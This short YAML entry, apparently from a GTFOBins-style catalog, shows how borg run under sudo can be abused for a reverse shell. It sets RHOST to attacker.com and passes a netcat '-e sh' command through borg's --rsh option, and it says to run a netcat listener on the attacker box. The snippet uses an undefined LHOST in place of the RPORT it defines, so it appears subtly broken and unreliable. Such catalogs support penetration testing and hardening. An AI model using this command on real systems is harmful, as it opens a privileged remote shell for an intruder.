 ```yaml
---
  sudo:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell. 
      code: |
        RHOST=attacker.com
        RPORT=12345
        NETCAT=/usr/bin/nc
        sudo borg extract .@.:/::.  --rsh "$NETCAT $RHOST $LHOST -e sh"
---
```

